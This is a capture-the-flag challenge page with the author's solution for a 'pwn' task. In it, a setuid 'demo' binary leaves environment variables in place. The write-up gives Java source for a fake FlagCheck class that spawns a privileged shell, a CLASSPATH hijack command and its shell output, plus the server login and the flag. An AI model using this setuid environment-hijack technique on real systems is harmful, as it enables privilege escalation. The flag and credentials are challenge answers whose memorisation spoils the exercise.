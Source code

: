 # demo
## Description 

`ssh student@3.27.46.246`

Password: `Ayw8U1bm2D857UASzd`

Note: ssh will connect to a newly-created ephemeral docker container each time you connect - files will not persist.

Docker escape is not part of the challenge and is not known to be possible, but it would be a valid solution. Please avoid interfering with the containers of other participants if you manage to do so.

---

**Category:** 
pwn

**Difficulty:**
hard

**Author:** 
Jamie

**Flag:**

`AHOY{i_rep0rted_th15_bu9_f1ve_yarr5_ag0}`

## Exploit
You want to read `/demo_files/FlagCheck.class`, but you don't have permission, you can only run it via the setuid `demo` executable. The binary fails to strip (most) environment variables. As such, you can take over execution as the `demo` user. For exmample:

1. Make an alternative FlagChecker.java, e.g. the following, and `javac` it

```
import java.lang.ProcessBuilder;
import java.lang.ProcessBuilder.Redirect;
import java.lang.Process;
import java.lang.Exception;

class FlagCheck {
	public static void main(String[] argv) {
		    ProcessBuilder pb = new ProcessBuilder("sh", "-p");
		    pb.inheritIO();
		    try {
		    Process p = pb.start();
		    p.waitFor();
		    } catch (Exception e) {e.printStackTrace();}
	}
}
```

2. Run demo as `CLASSPATH="/path/to/folder/with/malicious/FlagChecker/dot/class" ./demo yarr101 flag`
3. Get a shell
4. Exfiltrate the original class file for decompilation, or simply use `strings` (provided on the server):

```
student@gretarr-pt ~ % CLASSPATH=/home/student /demo yarr101 flag
$ whoami
demo
$ strings FlagCheck.class | grep AHOY
(AHOY{i_rep0rted_th15_bu9_f1ve_yarr5_ag0}
$   
```

Other techniques are likely possible. For example, `JVM_JAVA_OPTIONS` can be used to provide additional args to the JVM - the `-cp` arg can be used to control the classpath as above, and I imagine there are more exotic solutions invovling e.g. attaching a debugger to the JVM using this variable. `_JAVA_OPTIONS` and `JAVA_TOOL_OPTIONS` *do not work* for some reason, and I have no idea why - seemingly the JVM disregards these if euid != ruid.

